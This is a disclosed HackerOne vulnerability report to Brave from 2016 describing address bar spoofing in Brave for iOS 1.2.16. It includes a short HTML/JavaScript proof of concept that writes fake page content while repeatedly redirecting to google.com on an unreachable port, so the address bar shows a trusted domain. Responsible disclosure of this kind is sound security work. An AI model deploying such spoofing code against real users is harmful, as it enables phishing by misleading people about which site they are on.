 # [ios] Address bar spoofing in Brave for iOS

## Report Details
- **Report ID**: 176929
- **URL**: https://hackerone.com/reports/176929
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-10-20T00:40:35.997Z
- **Disclosed**: 2016-10-25T21:40:42.621Z

## Reporter
- **Username**: ibram
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
Hey

## Summary:
I've found an address bar spoofing vulnerability in the latest version of Brave for iOS.

## Products affected: 
Brave for iOS 1.2.16

*(Android maybe?)*

## PoC:
```html
<script>
  var spoof = function(){
      document.write("<h1>This is not Google</h1>");
      document.location = "https://google.com:1234";
      setInterval(function(){document.location="https://google.com:1234";},9800);
  };
</script>

<input type="button" value="Spoof" onclick="spoof();" />
```

## Supporting Material/References:
{F128949}

Regards,
Ibram

## Attachments
- IMG_3820.PNG
